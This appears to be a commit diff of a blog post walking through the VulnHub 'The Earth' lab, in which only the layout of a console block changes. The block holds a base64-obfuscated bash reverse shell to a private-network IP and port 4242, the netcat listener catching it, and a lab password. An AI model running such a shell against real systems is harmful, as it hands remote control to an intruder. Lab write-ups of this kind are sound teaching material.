

Before and after one commit to al1z4deh/al1z4deh.github.io, a Jekyll site: the page built from _posts/2022-05-25-vulnhub-the:earth.md, in a window 1280 px wide and 900 px high, scrolled down 1850 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2022-05-25-vulnhub-the:earth.md

````diff
--- a/_posts/2022-05-25-vulnhub-the:earth.md
+++ b/_posts/2022-05-25-vulnhub-the:earth.md
@@ -91,7 +91,10 @@ Password: earthclimatechangebad4humans
 After giving the ‘ls’ command and checking, I saw that there was an executor of the command. Let’s get shell
 
 ```console
-echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA3LzQyNDIgMD4mMQ== | base64 -d | bash'Don't forget to change.'└─$ nc -nvlp 4242
+echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA3LzQyNDIgMD4mMQ== | base64 -d | bash'
+
+                                                                          Don't forget to change.
+└─$ nc -nvlp 4242
 listening on [any] 4242 ...
 connect to [192.168.0.107] from (UNKNOWN) [192.168.0.105] 50364
 bash: cannot set terminal process group (846): Inappropriate ioctl for device
````
